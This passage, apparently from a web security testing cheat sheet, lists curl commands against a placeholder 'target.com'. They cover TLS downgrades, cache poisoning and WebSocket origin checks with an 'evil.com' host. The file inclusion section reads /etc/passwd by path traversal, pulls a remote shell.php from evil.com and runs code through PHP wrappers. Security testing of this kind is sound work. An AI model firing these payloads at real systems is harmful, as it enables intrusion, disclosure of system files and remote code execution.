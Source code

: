 ```bash
# Test for POODLE
curl --tlsv1.0 --tls-max 1.0 https://target.com

# Test for BEAST
curl --ciphers 'AES128-SHA' --tlsv1.0 https://target.com
```

## Advanced Web Cache Deception

```bash
# Test for Web Cache Deception
curl -v -H "X-Forwarded-Host: evil.com" https://target.com/account.php/non-existent.css

# Test for Cache Poisoning via Unkeyed Headers
curl -H "X-Forwarded-Host: evil.com" -H "X-Forwarded-Scheme: http" https://target.com

# Test for Cache Key Normalization
curl "https://target.com/?param=value" -H "X-Forwarded-Host: evil.com"
curl "https://target.com/?param=value2" -H "X-Forwarded-Host: evil.com"
```

## Advanced WebSocket Testing

```bash
# Test for WebSocket security headers
curl -i -N -H "Connection: Upgrade" \
        -H "Upgrade: websocket" \
        -H "Sec-WebSocket-Version: 13" \
        -H "Sec-WebSocket-Key: $(openssl rand -base64 16)" \
        https://target.com/ws

# Test for WebSocket origin validation
curl -i -N -H "Connection: Upgrade" \
        -H "Upgrade: websocket" \
        -H "Origin: https://evil.com" \
        -H "Sec-WebSocket-Version: 13" \
        -H "Sec-WebSocket-Key: $(openssl rand -base64 16)" \
        wss://target.com/ws
```

## Advanced File Inclusion Testing

```bash
# Test for Local File Inclusion (LFI)
curl "https://target.com/page?file=../../../../etc/passwd"

# Test for Remote File Inclusion (RFI)
curl "https://target.com/page?file=http://evil.com/shell.php"

# Test for PHP wrappers
curl "https://target.com/page?file=php://filter/convert.base64-encode/resource=index.php"
curl "https://target.com/page?file=expect://id"
curl "https://target.com/page?file=data://text/plain,<?php phpinfo();?>"

# Test for null byte injection
curl "https://target.com/page?file=../../../../etc/passwd%00"
```
